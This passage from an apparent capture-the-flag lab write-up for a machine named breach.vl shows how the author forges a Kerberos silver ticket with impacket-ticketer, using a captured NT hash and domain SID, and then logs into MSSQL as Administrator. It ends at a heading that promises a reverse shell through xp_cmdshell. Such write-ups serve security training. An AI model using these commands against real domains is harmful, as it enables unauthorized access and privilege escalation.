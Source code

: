 Lastly, I grab the domain SID here and we will have all requirements for the silver ticket forging.

![2c5c37affd3ee0c052b8adf53e9fc5c0.png](/resources/2c5c37affd3ee0c052b8adf53e9fc5c0.png)

I use impacket-ticketer to create a silver ticket for Administrator account and then use it to authenticate to MSSQL and now I have accessed to MSSQL user as database owner (dbo).
```
impacket-ticketer -nthash '69596C7AA1E8DAEE17F8E78870E25A5C' -domain-sid 'S-1-5-21-2330692793-3312915120-706255856' -domain breach.vl -spn 'MSSQLSvc/breach.vl:1433' Administrator -user-id 500
export KRB5CCNAME=Administrator.ccache
impacket-mssqlclient -k -no-pass Administrator@breach.vl -windows-auth
```
![834fa714ff7aa893ab3f194342a5d033.png](/resources/834fa714ff7aa893ab3f194342a5d033.png)

## Initial Access with xp_cmdshell for reverse shell
